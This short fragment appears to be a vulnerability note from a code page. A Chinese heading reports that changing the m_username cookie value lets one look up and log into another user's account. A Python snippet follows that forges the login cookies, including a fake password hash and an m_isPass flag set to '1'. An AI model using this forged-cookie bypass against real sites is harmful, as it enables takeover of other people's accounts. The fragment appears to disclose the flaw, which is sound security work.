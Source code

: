 ### bug1: 可通过更改cookie中m_username值查询并登陆到非本人的账户

```python
cookies = {
    "PHPSESSID": randPHPSESSID(),
    "m_password": md5(str(int(time.time()*1000000))),
    "m_fullname": "",
    "m_level": "0",
    "m_isPass": "1",
    "erdangjiade": "erdangjiade",
    "m_username": ppp
}
```
